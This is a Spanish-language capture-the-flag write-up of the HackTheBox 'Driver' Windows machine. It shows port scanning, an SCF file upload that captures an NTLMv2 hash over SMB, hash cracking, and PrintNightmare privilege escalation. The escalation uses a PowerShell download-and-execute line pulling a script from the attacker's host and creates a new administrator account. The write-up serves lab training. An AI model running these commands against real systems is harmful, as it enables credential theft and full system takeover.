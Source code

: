 ```yaml
---
title: HackTheBox - Driver
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'File Upload (scf)', 'PrintNightmare (CVE-2021-1675)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Driver/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Driver Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **File Upload (scf), PrintNightmare (CVE-2021-1675)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Driver/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sC  <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Driver/02-versions.png)

c. Si vamos al sitio nos pedirá credenciales, y al no disponer de ninguna, usamos las más comunes **admin:admin, root:root, admin:password*

![](/assets/images/HTB/Easy/Driver/03-web.png)

* Cosas más importantes
    + [x] Podemos subir cualquier tipo de archivo.
    + [x] El mensaje en la página web nos dice que al momento de subir un fichero, el equipo de testing lo revisará.

Después de intentar subir múltiples ficheros y no conseguir nada, investigamos formas de obtener una reverse shell o credenciales de usuario.

> Los archivos [**.scf**](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) sirven para la configuración de la apariencia de Windows.
{: .prompt-info }

Subimos un fichero .scf con el siguiente contenido

```scf
[Shell]
Command=2
IconFile=\\<IP tun0>\share\favicon.ico
[Taskbar]
Command=ToggleDesktop
```

> En el momento en el que alguien acceda a este fichero, se emitirá una solicitud a un servidor que estará en nuestro control, aquí se producirá una autenticación y podremos el hash **NLTMv2** del usuario.
{: .prompt-tip }


Antes de subir el fichero montamos un **servidor SMB:** **`impacket-smbserver Share ./ -smb2support`**, ahora subimos el fichero .scf

![](/assets/images/HTB/Easy/Driver/04-smb.png)

Crackeamos el hash con **john** 

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
liltony
```

d. Ahora, con las credenciales anteriores nos podemos conectar en el servicio **WinRM**

```bash
evil-winrm -i <IP Driver> -u 'tony' -p 'liltony'
```

### Escalada de Privilegios 💹

a. Subimos el script [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) para analizar posibles vectores de escalación de privilegios

```bash
*Evil-WinRM* PS C:\Users\tony> .\winPEASx64.exe

<SNIP>
Listening      1160            spoolsv
```

> El contexto de la Máquina va de impresoras, así que buscamos algo relacionado a este servicio e impresoras. [PrintNightmare](https://github.com/calebstewart/CVE-2021-1675)
{: .prompt-info }

b. Ahora, nos descargamos el script de Github y montamos un servidor con python **`python -m http.server 80`**. Ahora, desde evil-winrm realizamos una petición y ejecutamos el script directamente, todo esto con el fin de bypassear una restricción que se presenta al ejecutar el script

```powershell
*Evil-WinRM* PS C:\Users\tony> IEX(New-Object Net.WebClient).DownloadString('http://<IP tun0>/CVE-2021-1675.ps1')
```

* Ahora creamos un usuario el cual será añadido al grupo **Administrators**

    ```powershell
    *Evil-WinRM* PS C:\Users\tony> Invoke-Nightmare -DriverName "Xerox" -NewUser "estx" -NewPassword "estx@@"
    *Evil-WinRM* PS C:\Users> net localgroup Administrators
    Alias name     Administrators
    Comment        Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    Administrator
    estx
    ```

c. Estas credenciales nos sirven para conectarnos con evil-winrm

```bash
evil-winrm -i <IP Driver> -u 'estx' -p 'estx@@'

*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
b05bd2852ace7cda4c6e7f262e1930d9

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
84c4d9cd404904925830d6ac28b7ec33
```